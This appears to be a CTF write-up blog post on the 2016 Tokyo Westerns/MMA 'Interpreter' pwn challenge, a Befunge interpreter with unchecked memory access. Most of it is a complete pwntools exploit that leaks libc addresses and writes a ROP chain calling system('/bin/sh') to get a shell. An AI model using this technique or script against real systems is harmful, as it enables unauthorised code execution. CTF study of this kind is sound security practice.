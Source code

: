 ```yaml
---
layout: post
alias: "/blog/2016/09/05/twctf-2016-interpreter/"
date: "2016-09-05T12:58:30+09:00"
tags: [ "ctf", "writeup", "pwn", "mmactf", "twctf", "esolang", "befunge" ]
"target_url": [ "https://score.ctf.westerns.tokyo/problems/24" ]
---
```


# Tokyo Westerns/MMA CTF 2nd 2016: Interpreter

`befunge.7z`の文字列だけで脆弱性も攻撃方法も推測できてしまって楽勝って感じだったのに、bug埋めたのでflag出すのには手間取ってしまった。

## solution

The binary is an intepreter of ordinary [befunge](https://esolangs.org/wiki/Befunge).
The memory space is allocated as fixed length array and the indices is not checked.
So you can read/write anywhere using `g`/`p`.

## similar problems

-   brainfuck intepreter of <http://golf.shinh.org/>
    -   32bit, pwnable
-   brainfuck intepreter of <http://yukicoder.me/>
    -   64bit, unsolvable?

## implementation

<https://github.com/niklasb/libc-database> was useful to detect the version of libc.

``` sh
$ ./find __libc_start_main 0x7efe2f127e50 alarm 0x7efe2f1c6b90
ubuntu-trusty-amd64-libc6 (id libc6_2.19-0ubuntu6.9_amd64)
```

``` python
#!/usr/bin/env python2
import time
from pwn import * # https://pypi.python.org/pypi/pwntools
import argparse
parser = argparse.ArgumentParser()
parser.add_argument('host', nargs='?', default='pwn1.chal.ctf.westerns.tokyo')
parser.add_argument('port', nargs='?', default=62839, type=int)
args = parser.parse_args()
context.log_level = 'debug'

libc_start_main_got = 0x201f70
alarm_got = 0x201f68
fixedpoint = 0x202008
program = 0x202040
stack = 0x202820
pop_rdi_ret = 0x120c
height = 25
width  = 80

## ubuntu-trusty-amd64-libc6
libc_start_main_ofs = 0x21e50
environ_ofs = 0x3c14a0
system_ofs = 0x46590
bin_sh_ofs = 0x17c8c3

## ubuntu-xenial-amd64-libc6
# libc_start_main_ofs = 0x20740
# environ_ofs = 0x3c5f98
# system_ofs = 0x45380
# bin_sh_ofs = 0x18c58b

def push(n):
    if n < 0:
        return '0' + push(- n) + '-'
    elif 0 <= n <= 9:
        return str(n)
    else:
        return push(n // 9) + '9*' + str(n % 9) + '+'

p = remote(args.host, args.port)

payloads = []
payloads += [ '> ~ v' ]
payloads += [ '^p01<' ]
payloads += [ '' ] * (height - len(payloads))
for payload in payloads:
    p.recvuntil('> ')
    p.sendline(payload)

def read(addr, base=0x0):
    p.send(push(addr - (base + program)))
    for i in range(8):
        p.send(':' + push(i) + '+0g,')
    p.send('$')
    time.sleep(1)
    return u64(p.recv(8))

def write(addr, s, base=0x0):
    p.send(push(addr - (base + program)))
    for i, c in enumerate(s):
        p.send(':' + push(i) + '+~' + c + '\\0p')
    p.send('$')

program_base = read(fixedpoint) - fixedpoint
log.info('program base: 0x%08x', program_base)

libc_start_main = read(libc_start_main_got)
log.info('__libc_start_main: 0x%08x', libc_start_main)
alarm = read(alarm_got)
log.info('alarm: 0x%08x', alarm)
libc_base = libc_start_main - libc_start_main_ofs
log.info('libc base: 0x%08x', libc_base)

environ = libc_base + environ_ofs
log.info('__environ: 0x%08x', environ)
environ_value = read(environ, base=program_base)
log.info('*__environ: 0x%08x', environ_value)

payload = ''
payload += p64(program_base + pop_rdi_ret)
payload += p64(libc_base + bin_sh_ofs)
payload += p64(libc_base + system_ofs)
write(environ_value - 240, payload, base=program_base)

p.send(' ' * 1000)

time.sleep(1)
p.sendline('id')
p.interactive()
```
